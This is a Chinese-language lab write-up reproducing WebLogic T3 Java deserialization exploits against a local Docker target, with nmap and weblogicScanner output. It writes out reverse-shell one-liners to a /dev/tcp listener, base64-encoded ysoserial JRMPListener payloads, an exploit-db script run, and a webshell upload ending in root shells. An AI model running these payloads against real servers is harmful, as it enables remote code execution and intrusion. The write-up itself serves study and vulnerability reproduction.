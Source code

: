 

首先启动环境。因为我这里是一体化的环境，直接netstat -tunlp查看端口，可以看到7001端口是开放了的。

用nmap扫描：

```
nmap 127.0.0.1 -A
```

-A或者-sC都会使用默认脚本尝试，我们需要查看T3协议是否在使用。

注意这里要用回环地址，而不能使用本地局域网地址192.168.xx.xx。使用后者扫出来7001端口是filtered。这是docker环境限制的。

扫描结果如下：

```
7001/tcp open  http            Oracle WebLogic Server 10.3.6.0 (Servlet 2.5; JSP 2.1; T3 enabled)
|_http-title: Error 404--Not Found
|_weblogic-t3-info: T3 protocol in use (WebLogic version: 10.3.6.0)
```

也可以直接`-p 7001 --script=weblogic-t3-info`指定扫一下有没有使用T3协议。

还有一个工具是专门针对weblogic的，是weblogicScanner:https://github.com/rabbitmask

```
[*] =========Task Start=========
[+] [127.0.0.1:7001] Weblogic Version Is 10.3.6.0
[+] [127.0.0.1:7001] Weblogic console address is exposed! The path is: http://127.0.0.1:7001/console/login/LoginForm.jsp
[+] [127.0.0.1:7001] Weblogic UDDI module is exposed! The path is: http://127.0.0.1:7001/uddiexplorer/
[+] [127.0.0.1:7001] weblogic has a JAVA deserialization vulnerability:CVE-2016-0638
[-] [127.0.0.1:7001] weblogic not detected CVE-2016-3510
[+] [127.0.0.1:7001] weblogic has a JAVA deserialization vulnerability:CVE-2017-10271
[-] [127.0.0.1:7001] weblogic not detected CVE-2017-3248
[+] [127.0.0.1:7001] weblogic has a JAVA deserialization vulnerability:CVE-2017-3506
[-] [127.0.0.1:7001] weblogic not detected CVE-2018-2628
[-] [127.0.0.1:7001] weblogic not detected CVE-2018-2893
[-] [127.0.0.1:7001] weblogic not detected CVE-2018-2894
[+] [127.0.0.1:7001] weblogic has a JAVA deserialization vulnerability:CVE-2019-2725
[+] [127.0.0.1:7001] weblogic has a JAVA deserialization vulnerability:CVE-2019-2729
[+] [127.0.0.1:7001] weblogic has a JAVA deserialization vulnerability:CVE-2019-2890
[*] =========Task E n d=========

```

这次没扫出来是因为部分漏洞由于稳定性原因需要多次测试才可验证。多扫几次即可。

简单讲一下T3协议。正常java实现RMI（理解成面向对象的RPC）的底层协议是JRMP，但是weblogic比较特殊，使用的T3协议。这个协议会自动反序列化，且缺乏严格的类型检查，导致java反序列化漏洞。

java反序列化漏洞类似php反序列化漏洞，都是依靠反序列化时候自动触发的一些“魔术方法”执行恶意代码。java反序列化的利用链更加复杂，比如`common collections`（Apache Commons Collections是weblogic使用的一个第三方库，库中存在已知的危险类。）系列等。

## 一：传统利用jRMP

我们利用java反序列化漏洞的工具主要是`ysoserial`

同样要先先对反弹shell指令进行一个base64编码，便于传输。

```
bash -i >& /dev/tcp/127.0.0.1/2333 0>&1
编码如下：
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMjMzMyAwPiYx
这里有一个问题，就是编码的payload前面要不要加bash -c?
标准写法是不加，经过了时间的检测。加了以后会嵌套一个bash，我试过不会出错，但是在复杂环境可以有问题，还是按照标准写法就好。
```

利用JRMP Listener开一个恶意JRMP服务器。

然后需要一个脚本，向T3协议发送触发JRMP的payload，让靶机向我们的攻击机发送jrmp请求（主要是做T3协议的握手，然后发反序列化字符串，包含一个在我们恶意JRMP服务器上的远程恶意类，靶机会自动请求）

参考链接：https://www.cnblogs.com/scivous/p/16035232.html

具体步骤如下：

先开启JRMP服务监听一个端口：

```
jdk8u412-b08/bin/java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 38080 CommonsCollections1 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU5LjEyOC8yMzMzIDA+JjE=}|{base64,-d}|{bash,-i}'
```

注意ysoserial工具需要java8环境，这里要手动指定一下。38080就是提供JRMP服务的端口。

然后在exploit-db上寻找利用脚本：https://www.exploit-db.com/exploits/44553

按照提示运行，但是如果直接运行，ysoserial会使用系统的高版本java生成payload。而这个脚本也不能指定java路径。因此我们需要切换java版本

````
└─# python2 exploit.py 127.0.0.1 7001 ../../jdk8u412-b08/bin/java ../../ysoserial-all.jar 192.168.59.128 38080 JRMPClient

Usage:
exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
````

```
export PATH=/home/orange/my_tools/jdk8u412-b08/bin:$PATH
```

临时切换使用export修改环境变量中的PATH即可，修改完`java -version`检查，成功修改了java版本

然后执行脚本,注意这里使用CommonsCollections1不成功，改用CommonsCollections2即可:

```
┌──(root㉿kali)-[/home/orange]
└─# nc -nlvp 2333
listening on [any] 2333 ...
connect to [192.168.59.128] from (UNKNOWN) [172.18.0.2] 40218
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@309b94b79d67:~/Oracle/Middleware/user_projects/domains/base_domain# ls
ls
autodeploy
bin
config
console-ext
fileRealm.properties
init-info
lib
security
servers
startWebLogic.sh
root@309b94b79d67:~/Oracle/Middleware/user_projects/domains/base_domain# 

```

## 二：上传webshell

原理是**将攻击载荷直接嵌入序列化数据中，而不是依赖远程加载恶意类**。利用了WebLogic内部的一些类来直接创建文件，比如`org.apache.commons.fileupload.disk.DiskFileItem`

githuburl:https://github.com/jas502n/CVE-2018-2628

```
┌──(root㉿kali)-[/home/orange/my_tools]
└─# python2 CVE-2018-2628-Getshell.py 127.0.0.1 7001 123456.jsp   

handshake successful

 >>>>usage: python cve-2018-2628.py ip port shell1.jsp 

>>>Shell File Upload Dir: 

servers\AdminServer\tmp\_WL_internal\bea_wls_internal\9j4dqk\war\123456.jsp

>>>Getshell: http://127.0.0.1:7001/bea_wls_internal/123456.jsp?tom=d2hvYW1pCg==

```

```
#先进入weblogic容器
docker-compose exec weblogic bash
#然后找一下我们的webshell有没有上传成功
root@14494e1a1081:/tmp# find / -name "123456.jsp" 2>/dev/null
/root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/123456.jsp
```

根据脚本提示访问url：

![image-20250923124254826](C:\Users\zdx33\AppData\Roaming\Typora\typora-user-images\image-20250923124254826.png)

出现root字样是因为我们tom的payload是`whoami`指令的base64编码

这个webshell不太好利用，尝试蚁剑连接失败，同时反弹shell也失败。

docker中执行执行`bash -i >& /dev/tcp/192.168.59.128/2333 0>&1`是可以反弹的，但是写在webshell中就不行了。

估计是脚本问题，多次尝试发现管道符，重定向等都用不了。加上`bash -c`包裹后仍失效

上传的webshell关键部分如下：

```
byte[] binary = BASE64Decoder.class.newInstance().decodeBuffer(cmd);
String kcmd = new String(binary);
Process child = Runtime.getRuntime().exec(kcmd);
```

应该是直接调用Runtime.getRuntime().exec()导致的。但是按理说加上bash -c包裹就可以了

ok晚上突然想明白了。Runtime.getRuntime().exec()中就不能出现特殊符号，这就是为什么之前log4jshell要base64编码。

```
bash -c {echo,xxx}|{base64,-d}|{bash,-i}
```

老是顺着AI思路想，自己没有思考过。

这里尝试过修改脚本，但是webshell的一旦改变就无法上传。应该是有长度字段，但是脚本没注释，也没找到。

再把上面指令base64编码访问即可。

```
┌──(root㉿kali)-[/home/orange/my_tools/weblogic/CVE-2018-2628]
└─# nc -nlvp 2333
listening on [any] 2333 ...
connect to [192.168.59.128] from (UNKNOWN) [172.18.0.2] 36584
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@309b94b79d67:~/Oracle/Middleware/user_projects/domains/base_domain# 
```

除此之外还有就是利用weblogicTool这种图形化工具。首先环境配置很麻烦，要java8而且是有javaFX版本的。其次这种工具本质就是集合了几个漏洞的利用脚本。建议以后碰到漏洞自己尝试找脚本复现，锻炼自己能力。

